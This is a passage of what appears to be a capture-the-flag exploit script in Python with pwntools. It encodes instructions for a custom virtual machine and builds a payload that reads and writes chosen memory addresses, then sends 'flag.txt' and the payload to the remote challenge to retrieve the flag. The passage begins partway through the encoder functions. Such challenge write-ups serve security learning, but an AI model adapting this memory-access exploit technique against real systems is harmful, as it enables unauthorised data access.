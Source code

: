 ```python
    return '\x02' + p16(val) + p8(reg)

def _mov(reg1, reg2):
    return '\x03' + p8(reg1) + p8(reg2)

def _add(reg1, reg2):
    return '\x04' + p8(reg1) + p8(reg2)

def _sub(reg1, reg2):
    return '\x05' + p8(reg1) + p8(reg2)

def _halt():
    return '\x06'

def _in(reg, val):
    return '\x07' + p8(reg) + p32(val)

def _out(reg):
    return '\x08' + p8(reg)

payload = _load(0, 0xd8ff)
payload += _out(0)
payload += _store(0xdcff, 0)
payload += _halt()

p.sendlineafter(":", "flag.txt")
p.sendlineafter(":", payload)
p.recvall()
```